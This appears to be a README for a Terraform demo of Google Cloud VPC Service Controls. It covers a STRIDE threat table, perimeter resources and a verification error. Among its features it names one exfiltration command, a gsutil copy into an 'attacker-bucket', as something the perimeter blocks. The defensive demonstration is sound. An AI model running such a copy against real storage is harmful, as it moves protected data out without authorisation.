

# VPC Service Controls: The Ultimate Data Defense

This module demonstrates the implementation of a **Service Perimeter**, the most powerful tool in Google Cloud to prevent data exfiltration.

## 📊 Architecture (Mermaid Diagram)

## 🛡️ Threat Model (STRIDE Analysis)

| Threat Category | Mitigation in this Demo |
| :--- | :--- |
| **Information Disclosure** | VPC SC prevents data reading from outside the perimeter, even with valid IAM keys. |
| **Tampering** | Blocks writing/modifying data from unauthorized networks. |
| **Information Exfiltration** | Prevents copying data from a protected project to an external project (even if the user has access to both). |

## 🚀 Key Features
1.  **Context-Based Access**: API access is allowed only from trusted networks (Corporate Public IP).
2.  **Data Exfiltration Prevention**: Blocks commands like `gsutil cp gs://secure-bucket gs://attacker-bucket`.

## 🛠️ Implementation (Terraform)
The code is located in the `terraform/` folder. It defines:
- `google_access_context_manager_access_level`: Definition of the "trusted context".
- `google_access_context_manager_service_perimeter`: Definition of the "secure zone".

## ✅ Verification
Attempting to access BigQuery from an IP address outside the defined range will result in an error:
`VPC Service Controls: Request is prohibited by organization's policy.`

---
*Reference: [GCP VPC Service Controls Overview](https://cloud.google.com/vpc-service-controls/docs/overview)*
